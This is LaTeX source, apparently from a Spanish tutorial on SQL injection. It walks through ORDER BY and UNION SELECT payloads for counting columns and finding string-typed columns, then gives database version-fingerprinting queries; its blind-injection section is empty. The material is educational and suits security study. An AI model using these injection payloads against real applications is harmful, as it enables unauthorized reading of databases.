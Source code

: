 \documentclass[bibliography=totocnumbered]{scrartcl}
\begin{document}
Hay dos métodos efectivos para determinar cuántas columnas tiene la consulta original.\\

El \textbf{primer método} es con la clausula \textit{ORDER BY}. Se empieza con \textit{ORDER BY 1} y se continua aumentando hasta que la aplicación devuelva un error.
\begin{lstlisting}
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
\end{lstlisting}
\bigbreak

El \textbf{segundo método} involucra la clausula \textit{UNION} anteriormente mencionada. Consiste en hacer varias consultas de la siguiente manera:
\begin{lstlisting}
    ' UNION SELECT NULL--
    ' UNION SELECT NULL, NULL--
    ' UNION SELECT NULL, NULL, NULL--
    etc.
\end{lstlisting}
Si el número de \textit{NULL} no encaja con el número de columnas, se notificará un mensaje de error.

\paragraph{Determinar el tipo de la columna} 
\mbox{}

Normalmente, buscaremos columnas con tipos de dato \textit{String}, por lo que necesitaremos encontrar las columnas que sean de tipo \textit{String}.\\
Sabiendo cuántas columnas tiene la consulta original, debemos probar cada una de las columnas. Suponiendo que son tres las columnas, las pruebas serían así:
\begin{lstlisting}
    ' UNION SELECT 'a', NULL, NULL--
    ' UNION SELECT NULL, 'a', NULL--
    ' UNION SELECT NULL, NULL, 'a'--
\end{lstlisting}
Si el tipo de dato no es compatible con un \textit{String}, entonces obtendremos un error.

\subsection{Examinar la base de datos}
Es posible obtener información relevante de la base de datos, pero la consulta depende del tipo de base de datos.
\begin{lstlisting}[language=SQL]
            SELECT @@version            /* MySQL        */
            SELECT * FROM v$version     /* Oracle       */
            SELECT version()            /* PostgreSQL   */
\end{lstlisting}
Para conocer las peculiaridades de cada base de datos, es aconsejable mirar alguna \textit{cheat sheet}\parencite[ver][]{cheat_sheet} e investigar y leer sobre la base de datos en cuestión.

\subsection{Blind SQL injection}


\newpage
\nocite{*}
\printbibliography 
\end{document}
